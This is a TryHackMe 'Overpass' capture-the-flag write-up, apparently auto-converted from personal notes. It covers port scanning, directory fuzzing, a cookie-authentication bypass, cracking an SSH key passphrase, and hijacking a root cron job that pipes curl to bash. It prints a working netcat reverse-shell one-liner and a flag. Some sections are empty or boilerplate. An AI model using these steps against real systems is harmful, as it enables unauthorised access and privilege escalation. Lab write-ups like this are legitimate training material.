

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp open  ssh, 80/tcp open  http |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack
ssh -i james_rsa james@$ip
mkdir -p downloads/src
cd downloads/src/
nc -lvnp 1234
cat /root/root.txt
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```bash
Overpass
June 6, 2023 23:46
WriteUp that was helpful
https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1
https://termack.github.io/thm_writeups/overpass
1.Searching for the target
First of all nmap
nmap -sV -sT -sC $ip
Make sure 22 and 80 are open
┌──(n0z0㉿kali)-[~/work/thm]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 23:51 JST
Nmap scan report for 10.10.192.163
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.00 seconds
2. Subdomain search
┌──(n0z0㉿kali)-[~/work/thm]
└─$ ffuf -w ../../SecLists/Discovery/Web-Content/common.txt -u http://$ip/FUZZ
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method           : GET
:: URL              : http://10.10.192.163/FUZZ
:: Wordlist         : FUZZ: ../../SecLists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 281ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 307ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 325ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 293ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 316ms]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 311ms]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 338ms]
:: Progress: [4715/4715] :: Job [1/1] :: 116 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
Since you have admin, you can probably log in from here.
3. Log in with an appropriate cookie
OneNote
1/3
There is a detailed explanation here
https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1
After opening the console with F12, type the following
Break through cookie authentication
> Cookies.set("SessionToken", 'myCookieValue')
4.ssh login
Because there is a certificate after logging into the web
Download and make it available for ssh
ssh2john james_rsa > crack
Obtain passphrase using crack file
john --wordlist=/usr/share/wordlists/rockyou.txt crack
ssh login
ssh -i james_rsa james@$ip
5. Privilege escalation
I looked at cron and there are jobs that look good.
cat /etc/crontab
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
↑Since the name is resolved by host name, rewrite hosts.
Create directories on the remote host and on your own host according to the directory structure
$ mkdir -p downloads/src
$ cd downloads/src/
/downloads/src$ touch buildscript.sh
Editing the shell locally
/downloads/src$ nano buildscript.sh
#!/bin/bash
cat /root/root.txt > /tmp/flag
james@overpass-prod:/tmp$ touch flag
james@overpass-prod:/tmp$ chmod 777 flag
Becomes a server on the host side
sudo python3 -m http.server 80
When you look at tmp/flag on the attacking side, it is written
If you separately launch the console and wait on nc
Reverse shell succeeds
* Shell execution on the client side ⇒ Waiting on the own host side,
Reverse shell success
5-1 Reverse Shell Part 2
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Creating a reverse shell for sending on the own host side
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_VPN_IP> 1234 >/tmp/f" > downloads/src/buildscript.sh
Start the python server on the local host
sudo python3 -m http.server 80
Start another terminal and wait for the reverse shell executed on the remote host side
┌──(n0z0㉿kali)-[~/work/thm/Overpass]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.11.41.68] from (UNKNOWN) [10.10.201.183] 46554
/bin/sh: 0: can't access tty; job control turned off

### cat /root/root.txt

thm{7f336f8c359dbac18d54fdd64ea753bb}
#
OneNote
2/3
OneNote
3/3
```

### Not implemented (not recorded in PDF)


💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1
https://termack.github.io/thm_writeups/overpass
┌──(n0z0㉿kali)-[~/work/thm]
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
└─$ ffuf -w ../../SecLists/Discovery/Web-Content/common.txt -u http://$ip/FUZZ
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.192.163/FUZZ
:: Wordlist         : FUZZ: ../../SecLists/Discovery/Web-Content/common.txt
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 338ms]
:: Progress: [4715/4715] :: Job [1/1] :: 116 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
2026/02/27 17:41
john --wordlist=/usr/share/wordlists/rockyou.txt crack
cat /etc/crontab
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
$ mkdir -p downloads/src
$ cd downloads/src/
/downloads/src$ touch buildscript.sh
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- john
- nc
- sudo
- ssh
- curl
- cat
- GTFOBins
